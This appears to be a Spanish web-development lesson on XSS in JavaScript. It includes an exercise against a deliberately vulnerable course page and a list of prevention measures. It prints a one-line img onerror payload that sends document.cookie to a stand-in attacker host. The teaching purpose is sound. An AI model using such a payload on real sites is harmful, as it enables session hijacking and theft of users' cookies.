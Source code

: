 # JavaScript
## Vulnerabilidades

### <abbr title="Cross Side Scripting">XSS</abbr>

Ocurre cuando un usuario malicioso introduce en un campo código susceptible de ser interpretado por el navegador (HTML y/o JavaScript) o por el servidor (SQL).

El código más sencillo capaz de explotar la vulnerabilidad es:
```html
<img src='no' onerror="this.src='https://malo.web/robo?cookie=' + document.cookie;this.onerror=null;">
```

> **❓ Ejercicio:** _Introduce el código anterior en la [web vulnerable del tema de HTML](../../tema3/html/vulnerabilidades.html). Utilizando el inspector del navegador, averigua cómo se envían las cookies al atacante y piensa cómo arreglarías los problemas de dicha web._
> <details><summary><em>Diagrama solución...</em></summary><br>
> <object type="image/svg+xml" data="./files/xss.excalidraw.svg" width="100%"></object>
> </details>
> <br>

Para prevenir el XSS:
1. Usar [`textContent`](../../tema5/js/apis-dom-creacion.html#innerHTML) para escapar el contenido introducido por los usuarios antes de mostrarlo.
1. No utilizar el [`eval`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) de JavaScript.
1. Configurar las cookies de sesión para que sean [`HttpOnly`](../../tema2/http/cookies.html#httponly), de modo que no estarán presentes en el `document.cookie`.
1. Nunca guardar credenciales en el [Web Storage](../../tema5/js/apis-almacenamiento-webstorage.html).